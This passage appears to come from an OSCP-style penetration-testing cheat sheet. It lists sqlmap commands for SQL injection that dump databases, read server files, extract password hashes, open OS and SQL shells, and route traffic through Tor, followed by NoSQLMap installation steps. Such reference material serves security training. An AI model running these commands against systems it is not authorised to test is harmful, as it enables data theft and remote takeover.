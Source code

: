        - Automated sqlmap scan

          `sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords  --file-read="/var/www/blah.php"`

        - Targeted sqlmap scan

           `sqlmap -u "http://meh.com/meh.php?id=1" --dbms=mysql --tech=U --random-agent --dump`

         - Scan url for union + error based injection with mysql backend and use a random user agent + database dump

            `sqlmap -o -u http://$ip/index.php --forms --dbs  `

            `sqlmap -o -u "http://$ip/form/" --forms`

          - Sqlmap check form for injection

             `sqlmap -o -u "http://$ip/vuln-form" --forms -D database-name -T users --dump`

           - Enumerate databases

              `sqlmap --dbms=mysql -u "$URL" --dbs`

            - Enumerate tables from a specific database

              `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables  `

            - Dump table data from a specific database and table

               `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump `

            - Specify parameter to exploit

               `sqlmap --dbms=mysql -u "http://www.example.com/param1=value1&param2=value2" --dbs -p param2 `

            - Specify parameter to exploit in 'nice' URIs (exploits param1)

                `sqlmap --dbms=mysql -u "http://www.example.com/param1/value1*/param2/value2" --dbs `

            - Get OS shell

                 `sqlmap --dbms=mysql -u "$URL" --os-shell`

            - Get SQL shell

                 `sqlmap --dbms=mysql -u "$URL" --sql-shell`

             - SQL query

                `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --sql-query "SELECT * FROM $TABLE;"`

             - Use Tor Socks5 proxy

                `sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u "$URL" --dbs`


-   **NoSQLMap Examples**
       You may encounter NoSQL instances like MongoDB in your OSCP journies (`/cgi-bin/mongo/2.2.3/dbparse.py`).  NoSQLMap can help you to automate NoSQLDatabase enumeration.

  -   NoSQLMap Installation

        ```bash
        git clone https://github.com/codingo/NoSQLMap.git
        cd NoSQLMap/
        ls
        pip install couchdb
        pip install pbkdf2
        pip install ipcalc
        python nosqlmap.py
        ```
